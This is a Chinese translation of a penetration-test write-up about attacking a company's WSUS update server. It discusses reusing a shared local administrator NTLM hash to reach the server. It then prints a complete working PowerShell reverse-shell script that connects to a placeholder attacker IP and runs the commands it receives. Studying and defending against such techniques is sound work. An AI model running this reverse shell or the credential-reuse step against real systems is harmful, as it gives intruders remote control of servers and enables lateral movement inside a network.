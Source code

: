 > 原文链接: https://www.anquanke.com//post/id/85961 


# 【技术分享】公司智能手机安全（二）——瞄准WSUS服务器


                                阅读量   
                                **81472**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：infosecinstitute.com
                                <br>原文地址：[resources.infosecinstitute.com/targeting-wsus-server/](resources.infosecinstitute.com/targeting-wsus-server/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p5.ssl.qhimg.com/t0173b16e35342acbdf.jpg)](https://p5.ssl.qhimg.com/t0173b16e35342acbdf.jpg)



翻译：[村雨其实没有雨](http://bobao.360.cn/member/contribute?uid=2671379114)

预估稿费：150RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

<br>

该系列第一部分，请见[**[从APK到Golden Ticket：初步探测]**](http://bobao.360.cn/learning/detail/3762.html)

经过扫描发现，有两台主机能够满足我们的需求，给我们发送一个稳定的远程shell。他们分别是WSUS(Windows更新服务器)和Antivirus(反病毒相关服务器)，因为这些服务必须有Internet访问权限才能更新数据库，让我们从第一个开始。

有一个有趣的问题，本地管理员的NTLM哈希是否足以访问此服务器呢？也许我们的答案是肯定的。

在一家公司，所有服务器都使用相同的本地管理员密码其实很常见。这常常与第一次创建服务器有关系（非最佳实践），第一次被创建的服务器成为了模板，于是随后部署的实例都保留了原有的管理员密码。

经过一系列大型测试，现在事情变得更复杂了，我们有以下计划：

将我们之前的Powershell脚本(r1.ps1)放到公共web服务器上



```
function Invoke-r1
`{`
$client = New-Object Net.Sockets.TCPClient(‘&lt;OUR_PUBLIC_IP&gt;’,80)
$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%`{`0`}`
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
`{`
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
$sendback = (iex $data 2&gt;&amp;1 | Out-String )
$sendback2 = $sendback + ‘PS ‘ + (pwd).Path + ‘&gt; ‘
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
$stream.Write($sendbyte,0,$sendbyte.Length)
$stream.Flush()
`}`
$client.Close()
`}`
```
